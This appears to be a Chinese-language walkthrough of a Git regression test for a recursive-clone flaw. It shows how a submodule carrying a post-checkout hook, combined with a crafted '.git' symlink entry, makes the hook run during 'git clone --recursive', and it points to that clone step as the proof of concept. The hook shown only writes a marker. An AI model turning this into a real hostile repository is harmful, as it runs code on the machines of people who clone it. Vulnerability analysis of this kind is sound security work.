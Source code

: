 代码内容含义为：新建`hook/y/hooks/post-checkout`文件然后写入下面内容后提交：

```php
echo HOOK-RUN >&2
echo hook-run >"$tell_tale_path"
```

post-checkout 文件是什么？

post-checkout 是 Git 中的一种钩子（hook）。Git hooks 是一些脚本，允许你在特定的事件发生时执行自定义操作。post-checkout 钩子在以下情况之后被调用：

成功运行 git clone 命令。

成功运行 git checkout 命令。

### 新建captain仓库（最后git clone的仓库）

```php
hook_repo_path="$(pwd)/hook" &&
git init captain &&
(
    cd captain &&
    git submodule add --name x/y "$hook_repo_path" A/modules/x &&
    test_tick &&
    git commit -m add-submodule &&
    printf .git >dotgit.txt &&
    git hash-object -w --stdin <dotgit.txt >dot-git.hash &&
    printf "120000 %s 0\ta\n" "$(cat dot-git.hash)" >index.info &&
    git update-index --index-info <index.info &&
    test_tick &&
    git commit -m add-symlink
) &&
```

添加子模块：

- `hook_repo_path`设置上面hook仓库的路径，使用`git submodule add --name x/y "$hook_repo_path" A/modules/x`把hook仓库中的子模块添加到captain仓库中，子模块的名字是 `x/y`，路径是 `A/modules/x`

创建符号链接并提交：

- 创建一个包含文本内容 ".git" 的文件 dotgit.txt。
- 计算 dotgit.txt 文件的哈希值，并将其存储到 Git 对象数据库中。
- 创建一个索引信息文件 index.info，其中包含创建一个符号链接（指向 .git 文件内容）的信息。
- 使用 git update-index 命令将符号链接的信息添加到 Git 索引中。
- 提交这个符号链接的添加。

### 运行测试

```php
test_path_is_missing "$tell_tale_path" &&
test_must_fail git clone --recursive captain hooked 2>err &&
grep "directory not empty" err &&
test_path_is_missing "$tell_tale_path"
```

这部分我们构造poc需要做的就是`git clone --recursive captain hooked 2>err &&`
